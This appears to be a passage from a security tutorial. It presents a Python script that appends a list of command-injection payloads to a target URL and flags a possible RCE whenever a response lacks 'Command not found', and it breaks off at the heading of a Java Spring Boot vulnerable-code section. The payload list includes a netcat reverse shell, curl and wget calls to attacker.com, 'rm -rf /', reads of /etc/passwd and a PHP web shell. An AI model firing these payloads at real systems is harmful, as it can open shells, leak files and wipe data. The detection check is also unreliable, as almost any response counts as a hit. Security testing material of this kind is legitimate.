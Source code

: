 **Example Script for Automated RCE Detection**
-----------------------------------
Here's an example Python script that utilizes the requests library to automate the detection of potential RCE vulnerabilities in a target web application:

```python
import requests

target_url = "http://example.com/vulnerable_endpoint"
payloads = [
    ";ls",
    "|cat /etc/passwd",
    "$(uname -a)",
    ";id",
    "|whoami",
    "$(echo 'Hello, RCE!')",
    "`echo 'Hello, RCE!'`",
    "$(curl http://attacker.com/malicious_script.sh)",
    "|wget http://attacker.com/malicious_file",
    "$(nc -e /bin/bash attacker.com 4444)",
    ";phpinfo()",
    "|phpinfo()",
    "<svg/onload=alert('RCE')>",
    "<img src=x onerror=alert('RCE')>",
    "${7*7}",
    "#{7*7}",
    "';system('id');echo '",
    "`system('id')`",
    "$(php -r 'echo \"Hello, RCE!\";')",
    "<?php echo shell_exec($_GET['cmd']); ?>",
    "$(rm -rf /)",
    "|rm -rf /",
    "$(cat /etc/passwd)",
    "|cat /etc/passwd",
    "$(ping -c 1 attacker.com)",
    "|curl -X POST http://attacker.com/evil_endpoint",
]

for payload in payloads:
    response = requests.get(target_url + payload)
    if "Command not found" not in response.text:
        print("Potential RCE detected with payload:", payload)
```

In this script, we provide a list of payloads that can be appended to the target URL. We then send requests with each payload and check the response for indications of command execution. If the response doesn't contain the "Command not found" message, it suggests a potential RCE vulnerability.

Please note that this script is for demonstration purposes only and should be used responsibly on systems you have proper authorization to test.

**Vulnerable Code Example in Java Spring Boot**
-----------------------------------
Let's consider a vulnerable code example in a Java Spring Boot application and explore multiple ways to fix and block RCE attempts:
